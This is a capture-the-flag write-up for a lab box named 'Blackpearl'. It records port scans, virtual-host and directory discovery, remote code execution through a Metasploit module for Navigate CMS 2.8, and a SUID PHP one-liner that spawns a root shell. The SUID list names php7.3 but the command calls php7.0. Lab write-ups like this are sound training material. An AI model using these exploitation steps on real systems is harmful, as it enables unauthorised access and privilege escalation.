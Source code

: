 # Blackpearl
> 28.07.2024
---

# Ip: 10.0.2.154
## Enumeration

**Nmap Scan:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:38:14:50:ae:7d:ab:39:72:bf:41:9c:39:25:1a:0f (RSA)
|   256 a6:2e:77:71:c6:49:6f:d5:73:e9:22:7d:8b:1c:a9:c6 (ECDSA)
|_  256 89:0b:73:c1:53:c8:e1:88:5e:c3:16:de:d1:e5:26:0d (ED25519)
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u5 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u5-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Domain:**
```
blackpearl.tcm
```

**Directory busting:**
```
http://10.0.2.154/secret
http://blackpearl.tcm/navigate
```

**File Downloaded:**
*secret*
```
OMG you got r00t !


Just kidding... search somewhere else. Directory busting won't give anything.

<This message is here so that you don't waste more time directory busting this particular website.>

- Alek 
```

**Navigate service:**
- Version: 2.8 

## Exploit:
```
navigate_cms_rce (metasploit) / successful
CVE-2018-17553 CVE-2018-17552
```

## Lateral Movement
**SUID:**
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3 !
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

## Root via SUID:
```

CMD="/bin/sh"
/usr/bin/php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"

```

## Root Flag:
```
Good job on this one.
Finding the domain name may have been a little guessy,
but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.
```

# Usernames & Passwords:
- Alek
